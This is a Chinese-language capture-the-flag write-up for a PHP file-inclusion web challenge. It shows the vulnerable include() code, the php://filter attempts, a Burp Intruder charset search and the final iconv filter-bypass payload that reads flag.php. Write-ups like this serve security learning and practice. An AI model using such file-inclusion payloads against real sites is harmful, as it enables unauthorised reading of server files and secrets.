

## 题目介绍

这是攻防世界的一道 Web 题目，从题目描述和给出的源代码看，这是一个php的文件包含题目。

```php
<?php
highlight_file(__FILE__);
    include("./check.php");
    if(isset($_GET['filename'])){
        $filename  = $_GET['filename'];
        include($filename);
    }
?>
```

## WriteUp

看到有 include 函数，尝试了使用 php://filter 伪协议，做了下面几个尝试：

```php
# 做这个尝试的时候提示 do not hack ! 应该是对 read 做了过滤
?filename=php://filter/read=convert.base64-encode/resource=flag.php
# 使用这个尝试的时候，提示 you have use the right filter , but error usage
?filename=php://filter/convert.iconv.UTF-8.UTF-7/resource=index.php
```

尝试到这里的时候，停了下来。根据提示应该比较接近答案了，但是仍不知道突破口在什么地方。参考了前人的WP，才发现 iconv 过滤支持的编码格式很多，需要借助 Burpsuite 来尝试各类组合。

在 BP 中拦截请求后，将请求发送到 Intruder ，选择两个字符集做为参数。

从 PHP 官方文档中找到支持的所有字符集列表做为参数。

- UCS-4*
- UCS-4BE
- UCS-4LE*
- UCS-2
- UCS-2BE
- UCS-2LE
- UTF-32*
- UTF-32BE*
- UTF-32LE*
- UTF-16*
- UTF-16BE*
- UTF-16LE*
- UTF-7
- UTF7-IMAP
- UTF-8*
- ASCII*
- EUC-JP*
- SJIS*
- eucJP-win*
- SJIS-win*
- ISO-2022-JP
- ISO-2022-JP-MS
- CP932
- CP51932
- SJIS-mac (alias: MacJapanese)
- SJIS-Mobile#DOCOMO (alias: SJIS-DOCOMO)
- SJIS-Mobile#KDDI (alias: SJIS-KDDI)
- SJIS-Mobile#SOFTBANK (alias: SJIS-SOFTBANK)
- UTF-8-Mobile#DOCOMO (alias: UTF-8-DOCOMO)
- UTF-8-Mobile#KDDI-A
- UTF-8-Mobile#KDDI-B (alias: UTF-8-KDDI)
- UTF-8-Mobile#SOFTBANK (alias: UTF-8-SOFTBANK)
- ISO-2022-JP-MOBILE#KDDI (alias: ISO-2022-JP-KDDI)
- JIS
- JIS-ms
- CP50220
- CP50220raw
- CP50221
- CP50222
- ISO-8859-1*
- ISO-8859-2*
- ISO-8859-3*
- ISO-8859-4*
- ISO-8859-5*
- ISO-8859-6*
- ISO-8859-7*
- ISO-8859-8*
- ISO-8859-9*
- ISO-8859-10*
- ISO-8859-13*
- ISO-8859-14*
- ISO-8859-15*
- ISO-8859-16*
- byte2be
- byte2le
- byte4be
- byte4le
- BASE64
- HTML-ENTITIES (alias: HTML)
- 7bit
- 8bit
- EUC-CN*
- CP936
- GB18030
- HZ
- EUC-TW*
- CP950
- BIG-5*
- EUC-KR*
- UHC (alias: CP949)
- ISO-2022-KR
- Windows-1251 (alias: CP1251)
- Windows-1252 (alias: CP1252)
- CP866 (alias: IBM866)
- KOI8-R*
- KOI8-U*
- ArmSCII-8 (alias: ArmSCII8)



最后成功找到可以绕过过滤的字符集。

```php
?filename=php://filter/convert.iconv.EUC-JP%2a.UCS-4*/resource=flag.php
```

## 参考资料

1. [Multibyte String](https://www.php.net/manual/en/mbstring.supported-encodings.php)
1. [详解php://filter以及死亡绕过](https://blog.csdn.net/woshilnp/article/details/117266628)
1. [泰山杯：文件包含](https://blog.csdn.net/qq_36618918/article/details/128674773)
